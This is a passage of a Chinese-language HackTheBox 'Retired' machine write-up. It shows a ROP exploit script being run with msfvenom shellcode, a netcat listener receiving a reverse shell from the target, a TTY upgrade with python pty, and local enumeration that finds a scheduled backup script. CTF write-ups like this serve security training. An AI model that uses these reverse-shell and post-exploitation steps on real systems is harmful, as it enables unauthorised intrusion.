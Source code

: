 一旦你用当前的 libc，libsql，stack 值和你的 msfvenom 外壳代码更新了它，保存它。在您选择的端口上启动 nc 侦听，然后运行脚本:

```
┌──(root㉿kali)-[~/htb/retired]
└─# python pencer_exploit.py
[*] '/root/htb/retired/activate_license'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 190 cached gadgets for './libc-2.31.so'
[*] Loaded 162 cached gadgets for './libsqlite3.so.0.8.6'
```

# 反向外壳

切换到我们等待的 nc，看看我们终于有了一个反向外壳:

```
┌──(root㉿kali)-[~/htb/retired]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.198] from (UNKNOWN) [10.10.11.154] 44748
```

第一件事总是升级到更好的 shell:

```
┌──(root㉿kali)-[~/htb/retired]
└─# nc -nlvp 4444
listening on [any] 4444 ...
/usr/bin/python3 -c 'import pty;pty.spawn("/usr/bin/bash")'
www-data@retired:/var/www$ ^Z
zsh: suspended  nc -nlvp 4444
┌──(root㉿kali)-[~/htb/retired]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
www-data@retired:/var/www$ stty rows 60 cols 236
www-data@retired:/var/www$ export TERM=xterm
```

查看我们当前的文件夹会发现可疑文件:

```
www-data@retired:/var/www$ ls -l
www-data 505153 Jun 25 11:12 2022-06-25_11-12-04-html.zip
www-data 505153 Jun 25 11:13 2022-06-25_11-13-01-html.zip
www-data 505153 Jun 25 11:14 2022-06-25_11-14-04-html.zip
www-data   4096 Mar 11 14:36 html
www-data  20480 Jun 25 10:56 license.sqlite
```

创建时间相隔一分钟的三个 zip 文件表明有一个任务定期运行来创建它们。让我们搜索包含文件名中一致部分的文件:

```
www-data@retired:/var/www$ grep -r / -e '-html.zip' 2>/dev/null
/usr/bin/webbackup:DST="/var/www/$(date +%Y-%m-%d_%H-%M-%S)-html.zip"
```
